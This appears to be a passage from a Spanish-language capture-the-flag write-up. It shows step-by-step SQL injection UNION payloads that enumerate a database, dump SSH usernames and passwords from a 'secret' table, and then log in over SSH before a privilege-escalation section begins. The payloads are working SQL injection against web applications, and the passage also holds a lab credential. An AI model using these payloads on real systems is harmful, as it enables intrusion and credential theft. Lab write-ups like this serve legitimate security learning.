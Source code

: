 Vemos que hay una llamada `secret_db` por lo que vamos a sacar informacion de dicha tabla.

```sql
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='secret_db'-- -
```

Info:

```
secret
```

Veremos que hay una tabla llamada `secret` por lo que vamos a ver cuantas columnas tiene.

```sql
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema='secret_db' AND table_name='secret'-- -
```

Info:

```
id
ssh_pass
ssh_users
```

Vemos varias cosas interesantes, por lo que vemos hay credenciales de usuarios para conetcarnos por `SSH` vamos a extraer la informacion de la siguiente forma:

```sql
' UNION SELECT id, ssh_users, ssh_pass, null, null FROM secret_db.secret-- -
```

O

```sql
' UNION SELECT null, CONCAT(ssh_users, ':', ssh_pass), null, null, null FROM secret_db.secret-- -
```

Info:

```
sam:$uper$ecretP4$$w0rd123
```

Veremos que obtuvimos las credenciales para conectarnos por `SSH` por lo que haremos lo siguiente:

### SSH

```shell
ssh sam@<IP>
```

Metemos como contraseña `$uper$ecretP4$$w0rd123` y vereremos que estamos dentro.

## Escalate Privileges

Estando dentro si intentamos ver los puertos que que hay en la maquina victima a nivel local no podremos hacerlo con las herramientas tipicas como `ss` o `netstat`, pero si veremos que tenemos `nmap` instalado, por lo que vamos a realizar lo siguiente:
